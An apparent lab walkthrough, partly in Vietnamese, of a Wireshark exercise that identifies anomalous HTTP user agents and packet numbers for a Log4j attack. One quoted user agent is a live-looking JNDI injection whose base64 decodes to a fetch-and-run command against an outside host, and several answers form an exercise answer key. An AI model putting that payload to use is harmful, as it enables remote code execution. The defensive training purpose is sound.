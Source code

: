 #### Answer the questions below

Use the "Desktop/exercise-pcaps/http/user-agent.cap" file.
**Câu 1:** Investigate the user agents. What is the number of anomalous  "user-agent" types?

B1: Lọc các gói tin bằng http.user_agent
B2: Vào phần user_agent áp dụng làm 1 cột
![alt text](../png/Wireshark_Traffic/25.png)

B3: Xem và tìm các user_agent bất thường
![alt text](../png/Wireshark_Traffic/26.png)

**Có 6 bất thường** :
Mozilla/5.0 (Windows; U; Windows NT 6.4; en-US) AppleWebKit/534.10 (KHTML, like Gecko) Chrome/8.0.552.237 Safari/534.10
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
Wfuzz/2.4
sqlmap/1.4#stable (http://sqlmap.org)
${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}
Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0


**Câu 2:** What is the packet number with a subtle spelling difference in the user agent field?
![alt text](../png/Wireshark_Traffic/27.png)
Gói tin 52 viết Mozlila


#### Use the "Desktop/exercise-pcaps/http/http.pcapng" file.
**Câu 3:** Locate the "Log4j" attack starting phase. What is the packet number?

Dựa vào: Tóm tắt về phân tích lỗ hổng Log4j:
(ip contains "jndi") or ( ip contains "Exploit")
![alt text](../png/Wireshark_Traffic/28.png)
Gói tin bắt đầu là 444

**Câu 4:** Xác định giai đoạn bắt đầu tấn công "Log4j" và giải mã lệnh base64. Địa chỉ IP mà đối thủ liên lạc là gì?
B1: Trong gói tin 444 đó
![alt text](../png/Wireshark_Traffic/29.png)
![alt text](../png/Wireshark_Traffic/30.png)